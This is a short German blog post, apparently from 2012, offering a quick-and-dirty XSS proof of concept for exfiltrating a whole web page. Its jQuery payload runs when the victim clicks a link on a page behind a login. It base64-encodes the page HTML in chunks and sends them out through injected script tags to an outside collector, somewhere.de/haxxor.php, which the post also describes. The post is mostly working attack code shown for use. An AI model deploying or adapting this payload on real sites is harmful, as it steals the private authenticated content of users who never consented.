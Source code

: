 Webpage Transfer via Injection
##############################
:date: 2012-06-19 14:52
:tags: de, javascript, xss

Letztens wurde ich von Freunden gefragt, ob es moeglich sei ueber XSS eine Website komplett
zu uebertragen. Heute mal kurz hingesetzt und eine PoC dazu geschrieben.
Die Idee dahinter ist eigentlich recht leicht.
Wir schnappen uns den den Code der im HTML-Tag liegt, zerhauen ihn in mehrere kleine
Stuecke von ungefaehr 1024 Zeichen und Uebertragen diese ueber eine Einbindung von 
Javascript Code.

.. code-block :: javascript

	$(document).ready(function() {
		lineLength = 1024;
		$("a").click(function() {
			site = $("html").html().replace(/(\r\n|\n|\r)/gm,"");
			for(i = 0; i < Math.ceil(site.length/lineLength); i++) {
				query=i+'&'+base64_encode(site.substr(i*lineLength,lineLength));
				$('body').after('<script type="text/javascript" src="http://somewhere.de/haxxor.php?'+query+'"></script>');
			}
		});
	});


Diese haxxor.php ist eigentlich auch nichts Spektakulaeres. Es macht eine Session auf, 
holt sich die Session ID und speichert den gesamten Query String ab. Das auseinanderfrimmeln
ist recht einfach gemacht am Ende, weil ich die Reihenfolge mit uebergeb. 
Die Funktion base64_encode ist keine Standard Funktion und muss noch selbst implementiert werden.
Zudem base64 ich jedes einzelne Paket, dass fals ein Paket verloren geht, es nicht so dramatisch ist.

Warum nun das ganze, moege man sich fragen? Ganz einfach: man findet eine XSS hinter einem Login, moechte aber
wissen, was der jeweilige Benutzer sieht, und damit wird die Seite uebertragen.

Wie gesagt, es ist ein einfaches PoC. Nur eine Idee, dass es funktioniert. Quick&Dirty.

so long
